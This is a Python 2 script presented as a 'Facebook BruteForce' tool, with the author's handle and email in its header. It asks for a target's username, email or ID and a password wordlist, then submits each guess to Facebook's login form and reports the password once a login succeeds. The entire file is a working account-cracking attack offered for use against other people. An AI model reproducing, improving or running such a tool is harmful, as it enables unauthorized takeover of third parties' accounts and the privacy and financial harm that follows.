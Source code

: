 #!/usr/bin/python
# -*- coding: utf-8 -*-
        #############################################
        #                                           #
        #       Facebook BruteForce, by larteam      #
        #       Contact: larteam606@gmail.com      #
        #                                           #
        #############################################


import time
import os

os.system('clear')
time.sleep(0.5)
try:
    import mechanize
except ModuleNotFoundError:
    print '[!] Module >Mechanize< Not Found!\n    This module is only available in python 2.x :/\n    Please install mechanize (pip install mechanize) and run the program with python2'
    exit()

time.sleep(0.5)
user = raw_input('[?] Target Username/ID/Email >>> ')
time.sleep(0.8)
wrdlstFileName = raw_input('\n[?] Wordlist Directory >>> ')
try:
    wordlist = open(wrdlstFileName, 'r')
except FileNotFoundError:
    print ('\n[!] File Not Found!')
    exit()

time.sleep(0.8)
print '\n\nCracking '+user+' Now...'

time.sleep(1)
print '\n#############################################\n'
for password in wordlist:
    if password == '' or password == ' ':
        pass
    else:
        try:
            browser = mechanize.Browser()
            browser.set_handle_robots(False)
            browser.addheaders = [('User-agent', "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36")]
            fb = browser.open('https://facebook.com')
            dos = open('Facebook-Log.txt', 'w+')
            browser.select_form(nr=0)
            browser.form['email'] = user
            browser.form['pass'] = password
            browser.method = 'POST'
            browser.submit()
            dos.write(browser.open('https://facebook.com').read())
            dos.seek(0)
            text = dos.read().decode('UTF-8')
            if text.find('home_icon', 0, len(text)) != -1:
                print '[+] Password Found > '+password 
                dos.close()
                os.system('rm Facebook-Log.txt || del Facebook-Log.txt')
                exit()
            else:
                print "[!] Wrong Password! > "+str(password)
        except KeyboardInterrupt:
            print '\n#############################################\n   Exiting..'
            dos.close()
            os.system('rm Facebook-Log.txt || del Facebook-Log.txt')
            exit()

time.sleep(1)
print 'Sorry, none of the passswords in your wordlist is right.'
time.sleep(0.8)
dos.close()
os.system('rm Facebook-Log.txt || del Facebook-Log.txt')
exit()